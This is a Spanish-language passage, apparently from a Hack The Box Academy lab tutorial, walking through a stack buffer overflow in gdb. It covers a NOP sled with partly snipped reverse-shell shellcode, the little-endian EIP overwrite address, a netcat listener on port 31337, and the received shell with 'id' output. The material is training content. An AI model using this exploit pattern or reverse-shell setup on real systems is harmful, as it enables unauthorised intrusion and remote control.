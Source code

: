 ```shell-session
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd644:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |---> Shellcode
<SNIP>
```

Aquí, ahora tenemos que elegir una dirección a la que nos referiremos `EIP`y que leerá y ejecutará un byte tras otro a partir de esta dirección. En este ejemplo, tomamos la dirección `0xffffd64c`. En la ilustración, se ve así:


![imagen](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_9.png)

Después de seleccionar una dirección de memoria, reemplazamos nuestro " `\x66`", lo que sobrescribe el EIP para indicarle que salte a la `0xffffd64c`dirección. Tenga en cuenta que la entrada de la dirección se ingresa al revés.

```shell-session
   Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

Dado que nuestro shellcode crea un shell inverso, lo dejamos `netcat`escuchar en el puerto 31337.

```shell-session
student@nix-bow:$ nc -nlvp 31337

Listening on [0.0.0.0] (family 0, port 31337)
```

#### Explotación

Después de iniciar nuestro `netcat`oyente, ejecutamos nuevamente nuestro exploit adaptado, que luego activa la CPU para conectarse a nuestro oyente

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 95 - 4) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

#### Netcat - Escucha de shell inversa

  Identificación de la dirección de devolución

```shell-session
Listening on [0.0.0.0] (family 0, port 31337)
Connection from 127.0.0.1 33504 received!

id

uid=1000(student) gid=1000(student) groups=1000(student),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
